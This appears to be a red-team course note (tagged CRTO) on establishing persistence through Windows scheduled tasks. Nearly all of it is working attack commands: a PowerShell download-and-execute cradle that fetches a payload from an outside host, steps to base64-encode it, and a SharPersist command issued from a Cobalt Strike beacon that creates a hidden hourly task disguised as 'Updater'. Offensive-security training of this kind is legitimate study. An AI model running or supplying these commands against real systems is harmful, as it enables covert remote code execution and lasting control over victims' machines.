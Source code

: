 
The Windows Task Scheduler allows us to create "tasks" that execute on a pre-determined trigger. We can use this for persistence on a victim. 

### 🖊️ Create scheduled task with Powershell

1) For example a payload download, we assign the string to a variable:
	`$str = 'IEX ((new-object net.webclient).downloadstring("http://nickelviper.com/a"))'`

2) Convert to base64 in unicode , using Windows
		```	[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))

3) Convert to base64 in unicode , using Linux

	`set str 'IEX ((new-object net.webclient).downloadstring("http://nickelviper.com/a"))'`

	`echo -en $str | iconv -t UTF-16LE | base64 -w 0`

4) Then you can execute the task using a tool like sharpPersist

```
beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwBuAGkAYwBrAGUAbAB2AGkAcABlAHIALgBjAG8AbQAvAGEAIgApACkA" -n "Updater" -m add -o hourly
```
 

##  📗 Action to perform 

1. 


### Properties
---
📆 created   {{07-02-2024}} 14:10
🏷️ tags: #redteam #crto   

---

